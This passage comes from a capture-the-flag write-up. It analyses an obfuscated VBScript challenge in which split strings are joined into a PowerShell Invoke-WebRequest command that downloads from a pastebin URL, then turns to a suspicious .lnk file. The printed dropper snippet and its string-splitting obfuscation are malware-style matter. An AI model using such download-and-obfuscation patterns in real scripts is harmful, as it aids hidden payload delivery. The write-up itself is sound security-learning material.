 ```vb
Reqest0 = "if (!(Test-Path $f)){Invoke-WebRequest '"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest1 = "https://past"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest2 = "ebin.com/raw"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest3 = "/SiYGwwcz"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest4 = "' -ou"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest5 = "tfile $f  };"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest = Reqest0 + Reqest1 + Reqest2 +  Reqest3 + Reqest4 + Reqest5''''''''''''''''al37ysoeopm'al37ysoeopm
```

It is concatenating the pieces of a PowerShell script that will make a web request on what looks like a `pastebin url`. We can put the pieces of the url together.

We get `https://pastebin.com/raw/SiYGwwcz`

Accessing the `url` we get our flag.

```bash
➜  veebeeEee curl https://pastebin.com/raw/SiYGwwcz
<!-- flag{ed81d24958127a2adccfb343012cebff} -->%         
➜  veebeeEee
```

Flag: `flag{ed81d24958127a2adccfb343012cebff}`

--------------------------------------------------------------------

#### Thumb Drive

![image](/assets/img/Posts/huntress/thumb/descriptions.png)

**Get the file here** [ADATA_128GB.lnk.download](/assets/img/Posts/huntress/thumb/ADATA_128GB.lnk.download)

First thing first running file on the downloaded file we get a huge description of what really this file is.

![image](/assets/img/Posts/huntress/thumb/file.png)
